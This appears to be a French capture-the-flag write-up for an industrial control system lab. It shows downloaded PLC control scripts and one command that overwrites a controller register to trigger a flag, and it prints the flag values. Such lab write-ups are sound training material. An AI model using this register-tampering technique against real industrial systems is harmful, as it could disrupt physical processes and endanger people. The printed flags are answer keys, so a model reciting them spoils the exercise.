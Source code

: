 # Attacking ICS Plant 2 #

## Task 1 Discovery ##

![page1](./Task1-01.png)

On télécharge les scripts pour le contrôle des automates.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ tar -xf scripts.tar.gz 

```
## Task 2 Flag 1 ##

**Read flag1.txt**

```bash
tim@kali:~/Bureau/tryhackme/write-up$ curl http://10.10.242.41/flag1.txt
0df2936b4cfbd5ce3ae91ef7021d925a
```
On attend un peu est on regarde un peut le flag1.txt.  

Le flag est : 0df2936b4cfbd5ce3ae91ef7021d925a   

## Task 3 Flag 2 ##

**Read flag2.txt**

```bash
tim@kali:~/Bureau/tryhackme/write-up$ python set_registry.py 10.10.242.41 7 2000
im@kali:~/Bureau/tryhackme/write-up$ curl http://10.10.242.41/flag2.txt
fdee450ac6627276d115dd905a256d49
```

On modifie la valeur de la colonne 7 qui est un compteur à 2000.   
On regarde le flag2.txt.  
La flag est : fdee450ac6627276d115dd905a256d49   



